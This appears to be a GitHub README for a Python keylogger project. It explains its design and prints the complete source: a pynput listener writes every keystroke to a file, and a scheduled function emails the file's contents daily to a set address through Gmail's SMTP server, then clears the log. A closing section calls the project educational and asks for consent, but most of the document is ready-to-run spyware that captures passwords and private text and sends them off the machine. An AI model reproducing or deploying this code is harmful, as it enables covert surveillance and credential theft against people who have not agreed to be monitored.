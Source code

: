 # Keylogger 

 ## Description

This Python script demonstrates the use of various programming concepts and libraries to achieve a specific functionality: a keystroke logger that captures all keyboard activity, logs it to a file, and then sends the contents of that file to a specified email address once a day. The script uses the pynput library to capture keystrokes, the schedule library to schedule tasks, and the smtplib library to deliver emails. This project is designed to be instructive, demonstrating how to programmatically monitor keyboard input, handle scheduled tasks, and send emails using a Python script.
<br />

 ## What I learned
During the development of this project, I improved my understanding of some essential areas of Python programming and libary use cases to include:

- **Keyboard Event Monitoring**: Using the pynput package to listen for and record keyboard events in real time.
- **Task Scheduling**: Using the schedule module to run certain functions at predefined times, allowing for automated tasks within a Python script.
- **Email Handling in Python**: Use smtplib and MIME standards to construct and send emails programmatically, including plaintext and multipart communications.
- **File I/O Operations**: Managing file operations for logging data and comprehending the significance of flushing buffers to ensure data integrity.
- **Environmental Variables**: The significance of using environmental variables to securely manage sensitive information such as email credentials in scripts.


 ## Languages and Utilities Used 

<img src="https://upload.wikimedia.org/wikipedia/commons/c/c3/Python-logo-notext.svg" align= bottom width= 25 alt="snek" /> The core programming language used for the entire project is Python V3.8. Python's extensive standard library and external packages make it ideal for capturing keystrokes, scheduling tasks, and sending emails.

### Python Libraries:

- `pynput`: For monitoring and logging keyboard events. <br />
- `schedule`: To schedule the email sending function to run at specified times. <br />
- `smtplib`: Used for sending emails through the Simple Mail Transfer Protocol (SMTP). <br />
- `email`: Specifically, MIMEText and MIMEMultipart, for creating email messages. <br />  
- `datetime`: For timestamping in the log file and email subject lines. <br />

 ## Environments Used

- **Windows 11** 

## Challenges and Solutions

During the development of this keystroke logger, several challenges were encountered. Here’s how each was addressed and resolved:

#### Efficient Data Logging
- **Problem**: Needed to ensure that the script logs keystrokes without consuming too many system resources or causing perceptible lag in user input.
- **Solution**: Optimized the logging mechanism by buffering keystrokes and writing them to the file in intervals instead of real-time logging for each keystroke. This reduced the resource consumption and minimized input lag.

#### Handling Special Keys
- **Problem**: Special keystrokes, such as Shift and Ctrl, were not being logged in a manner that was easily understandable in the log file.
- **Solution**: Implemented a mapping function to convert special key events into readable strings (e.g., "[Shift]", "[Ctrl]") before logging them. This made the log files more instructive and user-friendly.

#### Secure Email Transmission
- **Problem**: Needed a way to transmit email logs securely without hardcoding sensitive email credentials into the script.
- **Solution**: Utilized environment variables to store email credentials securely. Integrated `smtplib` with TLS encryption for email transmission to ensure that the log data is sent securely over the network.

#### Scheduling Precision
- **Problem**: The scheduled task to send the email log needed to execute reliably at the same time every day, without being affected by the computer's sleep state or potential script interruptions.
- **Solution**: Used the `schedule` library for its simplicity and reliability in scheduling tasks. To handle potential downtime or sleep states, implemented a check at script startup to determine if a scheduled task was missed during downtime and execute it immediately if so.



 ## Script Explanation:
 
- **Explanation**: This block imports the necessary Python libraries. `schedule` for task scheduling, `time` and `datetime` for handling time-related functions, `pynput.keyboard` for keyboard event monitoring, and several `smtplib` and `email.mime` modules for constructing and sending emails.
```python
# Import necessary libraries
import schedule
import time
from datetime import datetime
from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
``` 
- **Explanation**: `send_email` is a function that takes a subject and body text, constructs an email, and sends it using the SMTP protocol. It uses the `smtplib` library to connect to Gmail's SMTP server, log in, and send the email.
```python
# Function to send an email
def send_email(subject, body):
    sender_email = "your_email@gmail.com"  # Update with your email
    receiver_email = "email@email.com"  # Update with recipient's email
    password = "your_password"  # Update with your email password
    message = MIMEMultipart()
    message['From'] = sender_email
    message['To'] = receiver_email
    message['Subject'] = subject
    message.attach(MIMEText(body, 'plain'))
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(sender_email, password)
    text = message.as_string()
    server.sendmail(sender_email, receiver_email, text)
    server.quit()
```

- **Explanation**: This function opens the log file containing the captured keystrokes, reads its content, and sends this as an email using the previously defined `send_email` function. After sending the email, it clears the log file by opening it in write mode and immediately closing it.
```python
# Function to read the log file and send its contents via email
def read_and_email_log():
    with open("keyfile.txt", 'r') as logFile:
        captured_keys = logFile.read()
    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    send_email(f"Keystroke Capture for {timestamp}", captured_keys)
    open("keyfile.txt", 'w').close()
```

- **Explanation**: `keyPressed` is a callback function triggered by each key press. It attempts to write the pressed key's character to the log file. If the key pressed does not have a character representation (like Ctrl, Alt, etc.), it logs the key's name instead. The log is immediately flushed to ensure all data is written even if the script stops abruptly.
```python
# Callback function for each key press
def keyPressed(key):
    with open("keyfile.txt", 'a') as logKey:
        try:
            logKey.write(key.char)
        except AttributeError:
            logKey.write(f"[{key}]")
        finally:
            logKey.flush()
```

- **Explanation**: This section initializes the key logger by setting up a keyboard listener to monitor keystrokes and invoking the `keyPressed` function on each key press. It schedules the `read_and_email_log` function to run daily at 22:00, effectively emailing the day's logged keystrokes and then waits indefinitely, processing scheduled tasks as they become due.
```python
# Main execution block
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    schedule.every().day.at("22:00").do(read_and_email_log)
    print("Key logger started. Capturing keystrokes...")
    while True:
        schedule.run_pending()
        time.sleep(1)
```
## Ethical Use and Educational Purpose

This project has been developed for educational purposes only. It is intended to demonstrate practical applications of programming concepts in Python, including working with external libraries, handling file I/O, scheduling tasks, and sending emails programmatically. 

**Important Note**: The use of keystroke logging software can raise significant ethical and legal issues, especially concerning privacy and consent. This project is shared with the understanding that it will not be used to monitor or record keystrokes without the explicit, informed consent of all individuals involved. It is crucial to adhere to all applicable laws and ethical guidelines when considering the deployment or further development of software with capabilities like those demonstrated here.

The sharing of this project is aimed at fostering learning and the exchange of ideas within the programming and cybersecurity communities. Any use of this project or its code for purposes beyond educational learning or without strict adherence to ethical considerations is strongly discouraged.

